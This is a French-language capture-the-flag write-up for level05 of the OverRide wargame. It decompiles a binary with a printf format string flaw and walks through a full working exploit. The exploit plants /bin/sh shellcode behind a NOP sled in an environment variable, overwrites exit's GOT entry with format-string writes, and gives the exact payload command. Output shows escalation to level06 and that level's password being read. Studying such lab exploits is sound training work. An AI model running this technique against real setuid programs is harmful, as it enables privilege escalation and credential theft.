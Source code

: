 # **Level 05**

Pour ce `level05` nous decompilons l'executable

```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	char s[100]; // [esp+28h] [ebp-70h] BYREF
	unsigned int i; // [esp+8Ch] [ebp-Ch]

	i = 0;
	fgets(s, 100, stdin);
	for ( i = 0; i < strlen(s); ++i ) //tolower
	{
		if ( s[i] > 64 && s[i] <= 90 )
			s[i] ^= 0x20u;
	}
	printf(s);
	exit(0);
}
```

Donc le code prend un input de `100` caractere, effectue un `tolower` dessus, puis l'affiche en utilisant `printf`

Cependant `printf` est ici mal utilise, le premier arguments de `printf` correspond a la format string donc
les `%_` sont interprete, on peux donc faire une `format string attack` sur cette executable

On va donc mettre un `shellcode` dans l'env precede par une multitude de `NOP` puis remplacer l'addresse de `exit`
par l'addresse de notre `shellcode` grace au `%n`

Nous commencons par recuperer l'addresse d'`exit`

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0 <==
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
```
Adresse exit -> `0x80497e0`

Puis nous creeons notre `shellcode` dans l'env
```
level05@OverRide:~$ export SHELLCODE=$(python -c "print'\x90'*1024 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
```

Et nous recuperons sont addresse
```
(gdb) x getenv("SHELLCODE")
0xffffd4ba:	0x90909090
```

Et la nous avons un probleme, car `0xffffd4b0` est superieur a `2147483647 (MAXINT)` aui est la valeur maximal que prend `%n`
donc nous ne pouvons pas ecrire cette addresse de cette facon

Il faut donc ruser, un `int` est compose de `4` bytes ce aui signifie que pour avancer d'`int` en `int` il faut avancer de `4` bytes.
Mais que ce passe-t-il quand on avance uniquement de `2` bytes ?
Tout simplement on recupere les deux derniers byte de l'addresse de base et les 2 premiers byte de l'addresse suivante

Voici un schema pour expliquer

![Le schema](/level05/ressources/ovveridelvl05.png)

Donc le plan est d'ecrire les `2` premiers bytes de l'addresse de notre `shellcode` dans l'addresse `exit`
puis les `2` derniers dans l'addresse d'`exit + 2`.

> On vise au milieux des `NOP` donc `0xd4ba` deviens `0xd5ba`

Soit `0xd5ba - 8` = `54714` puis `0xffff - 0xd5ba - 8 = 10813`

On peux donc faire notre payload

> On utilise `%hn` au lieu de `%n` pour marque le fais qu'on ecrit uniquement sur les 2 premiers bytes

```
level05@OverRide:~$ python -c 'print"\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%54714x%10$n%10813x%11$n"' > /var/crash/file
level05@OverRide:~$ cat /var/crash/file - | ./level05 
id
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

> ### NEXT : [Level 06](/level06/resources/README.md)
